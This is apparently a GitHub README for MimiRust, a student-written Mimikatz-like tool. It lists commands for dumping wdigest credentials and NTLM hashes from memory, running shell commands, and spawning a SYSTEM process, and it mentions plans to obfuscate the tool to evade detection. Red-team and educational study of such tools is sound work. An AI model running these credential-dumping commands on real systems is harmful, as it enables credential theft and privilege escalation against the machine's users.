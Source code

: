 <small><strong>Maybe in the future I will make it polymorphic and obfuscate the strings (also polymorphic) and API calls.</strong></small>


<h2>Quick usage:</h2>
<p>MimiRust can be ran in two different ways: from the command line using mimiRust.exe --help or in the shell by running the executable without any command line arguments. For help with the program type one of the following into mimiRust:</p>
<ul>
  <li><code>mimiRust # ?</code></li>
  <li><code>mimiRust # h</code></li>
  <li><code>mimiRust # help</code></li>
</ul>
<p>You will now be required to type in the module that you want to access, current modules are:</p>
<ul>
  <li><code>passwords</code></li>
  <li><code>pivioting</code></li>
  <li><code>privilege</code></li>
</ul>

<br><h3>Dumping credentials from memory through wdigest</h3>
<code>mimiRust::passwords # dump-credentials</code><br>
<code>mimiRust.exe --dump-credentials</code>
<br>

<br><h3>Dumping NTLM hashes from user accounts</h3>
<code>mimiRust::passwords @ dump-hashes</code><br>
<code>mimiRust.exe --dump-hashes</code>
<br>

<br><h3>Executing shell commands</h3>
<code>mimiRust::pivioting $ shell whoami</code>
<br>

<br><h3>Spawning a process with SYSTEM</h3>
<code>mimiRust::privilege # spawn-path cmd.exe</code><br>
<code>mimiRust.exe -s cmd.exe</code>

<h2>Demo</h2>
<small>click on the demo to get a higher resolution</small>
<img src="./demo.gif" alt="mimiRust Demo" width="100%">

<br><h3>Disclaimer</h3>
<p>I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.</p>
<br>
<h2>Author</h2>
<h3>Why was MimiRust made</h3>
<p>MimiRust was created as a project by a first years Cyber Security Bachelors student. The reason for this is because I was too bored learning about business processes in a Security Bachelors that I decided to just start for myself.</p>
<br>
